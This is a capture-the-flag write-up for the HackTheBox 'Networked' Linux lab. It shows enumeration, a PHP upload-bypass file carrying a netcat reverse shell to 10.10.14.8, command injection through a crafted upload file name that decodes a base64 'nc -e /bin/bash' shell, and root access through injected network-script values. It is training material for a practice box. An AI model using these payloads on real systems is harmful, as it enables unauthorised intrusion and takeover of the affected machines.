




`Box: Linux`
`Level: Easy`
### Index
1. [`Box Info`](#`Box%20Info`)
2. [`Initial Nmap Enum`](#`Initial%20Nmap%20Enum`)
3. [`Web Enumeration`](#`Web%20Enumeration`)
	1. [`Upload callmeback.php.gif and got Shell`](#`Upload%20callmeback.php.gif%20and%20got%20Shell`)
	2. [`Command Injection - PHP`](#`Command%20Injection%20-%20PHP`)
4. [`Privilege Escalation`](#`Privilege%20Escalation`)
	1. [`sudo -l always saves the day`](#`sudo%20-l%20always%20saves%20the%20day`)
	2. [`Root Through network-scripts`](#`Root%20Through%20network-scripts`)

### `Box Info`
```
Networked is an Easy difficulty Linux box vulnerable to file upload bypass, leading to code execution. Due to improper sanitization, a crontab running as the user can be exploited to achieve command execution. The user has privileges to execute a network configuration script, which can be leveraged to execute commands as root.
```

### `Initial Nmap Enum`
```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn 10.10.10.146
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
443/tcp closed https
```

### `Web Enumeration`

Just guessing that /upload.php and it opens up the upload.php file

```
# gobuster dir -u http://10.10.10.146/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -c 404
/uploads              (Status: 301) [Size: 236] [--> http://10.10.10.146/uploads/]
/backup               (Status: 301) [Size: 235] [--> http://10.10.10.146/backup/]
```



Downloading `Backup.tar` file got up something when extracting 
```
# tar -xvf backup.tar 
index.php
lib.php
photos.php
upload.php
```

###### `Upload callmeback.php.gif and got Shell`
So we got the source code. we now know that there's a `photos.php` present.


Uploading my `callmeback.php` - Double Extension 
```
# cat callmeback.php.gif         
GIF8;
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 4444 >/tmp/f"); ?>
```

After refreshing the `photos.php` page, On the NetCat side, I got the shell
```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.146] 46030
sh: no job control in this shell
sh-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
```

But we have a permission denied for `user.txt` Looking at the `home` directory, I found one interesting file `check_attack.php`. 

```
cd /home/guly
sh-4.2$ ls -la
ls -la
total 28
drwxr-xr-x. 2 guly guly 4096 Sep  6  2022 .
drwxr-xr-x. 3 root root   18 Jul  2  2019 ..
lrwxrwxrwx. 1 root root    9 Sep  7  2022 .bash_history -> /dev/null
-rw-r--r--. 1 guly guly   18 Oct 30  2018 .bash_logout
-rw-r--r--. 1 guly guly  193 Oct 30  2018 .bash_profile
-rw-r--r--. 1 guly guly  231 Oct 30  2018 .bashrc
-r--r--r--. 1 root root  782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root   44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly   33 Oct  9 05:41 user.txt
```

##### `Command Injection - PHP`
Look at the `check_attack.php` file
```
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```

If you don't understand the code that's fine. i know that the `exec` function is executing the command line functions. We have two lines in the code which uses `exec` function in a PHP code. The `$logpath` variable is set at the top statically. The `$path` variable is also set statically. But if you look at the `$value` variable that is not set. The `IF` condition is checking the value for the `$value` variable. We know that whatever we will upload goes to `/var/www/html/uploads` directory.  We are going to do the following steps to get the shell for the user `guly`.

```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Linux-Boxes/Networked.htb]
└─# echo nc -e /bin/bash 10.10.14.8 4444 | base64 -w0
bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjggNDQ0NAo=  
```

This will be the base64 to initiate the NetCat connection. On our target box, in the `/var/www/html/uploads/` directory, we are going to create a file as follows
```
sh-4.2$ touch '/var/www/html/uploads/shell; echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjggNDQ0NAo= | base64 -d | sh;'
sh-4.2$ ls
ls
10_10_14_8.php.gif
127_0_0_1.png
127_0_0_2.png
127_0_0_3.png
127_0_0_4.png
index.html
shell; echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjggNDQ0NAo= | base64 -d | sh;
```

On the NetCat Side, you will need to wait 3 minutes
```
# nc -lvnp 4444                                    
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.146] 46066
id
uid=1000(guly) gid=1000(guly) groups=1000(guly)
```

Get your User Flag.

### `Privilege Escalation`

###### `sudo -l always saves the day`
```
[guly@networked home]$ sudo -l
sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```

There's a `changename.sh` script. 

```
[guly@networked ~]$ cat /usr/local/sbin/changename.sh
cat /usr/local/sbin/changename.sh
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```

Executing the `changename.sh` script. It asks to provide the input like Interface name, proxy_method etc. and than write it out to `/etc/sysconfig/network-scripts/ifcfg-guly`

```
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
asdf
asdf
interface PROXY_METHOD:
asdf
asdf
interface BROWSER_ONLY:
asdf
asdf
interface BOOTPROTO:
asdf
asdf
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
```

The above script execution also errors out `guly0` interface failed to up because it doesn't present.

```
[guly@networked ~]$ cat /etc/sysconfig/network-scripts/ifcfg-guly
cat /etc/sysconfig/network-scripts/ifcfg-guly
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
NAME=asdf
PROXY_METHOD=asdf
BROWSER_ONLY=asdf
BOOTPROTO=asdf
```

So we have one file where our input is written down. One invalid interface.

###### `Root Through network-scripts`
https://seclists.org/fulldisclosure/2019/Apr/24

The above article helped me in getting the root shell.
```
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
ringbuffer
ringbuffer
interface PROXY_METHOD:
r /bin/bash
r /bin/bash
interface BROWSER_ONLY:
i
i
interface BOOTPROTO:
n
n
[root@networked network-scripts]#
[root@networked network-scripts]# id
id
uid=0(root) gid=0(root) groups=0(root)
```

If, for whatever reason, a user is able to write an ifcf-whatever script to /etc/sysconfig/network-scripts or it can adjust an existing one, then your system in pwned.



Get your root flag.
